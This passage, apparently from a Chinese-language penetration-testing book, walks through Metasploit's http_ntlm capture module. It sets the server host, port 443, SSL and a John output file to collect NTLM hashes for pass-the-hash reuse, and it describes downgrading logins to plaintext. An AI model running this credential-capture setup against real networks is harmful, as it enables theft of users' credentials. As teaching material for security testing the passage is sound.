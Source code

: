 再次设置`SRVHOST`。您可以使用向上箭头键返回上次设置的属性：

```
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
```

有两种方法可以捕获 HTTP 流量。一个是`auxiliary/server/capture/http_ntlm`模块。此模块将在其 NTLM 哈希中捕获凭据。这些散列将是可重放的，因为我们的攻击服务器发送了挑战。挑战盐值之前已定义，我们看到它设置为`1122334455667788`。此攻击捕获的哈希可用于*传递哈希*式攻击。要设置并运行此模块，请运行以下命令：

```
use auxiliary/server/capture/http_ntlm
show options  
```

![](img/ffe2c9ce-d224-4fb3-b7eb-c71b814914c4.png)

再次设置`SRVHOST`。您可以使用向上箭头键返回上次设置的方式：

```
set SRVHOST 172.16.42.139  
```

由于`wpad`服务器在端口`80`上运行，我们需要将此服务移动到另一个 HTTP 端口，因此我们将其设置为在端口`443`上运行，并将 SSL 设置为 true，如下所示：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set JOHNPWFILE john-cap.txt # This will set an output file.
run -j # Again this will run the job in the background
```

第二种方法将导致 NTLM 登录降级为明文，就像响应程序附带的 HTTP 服务器一样。使用此捕获方法，凭证就可以使用了。一次只能使用其中一个模块。尝试同时运行这两个将导致第二个 HTTP 服务器崩溃，有时还会导致第一个 HTTP 服务器开始挂起。
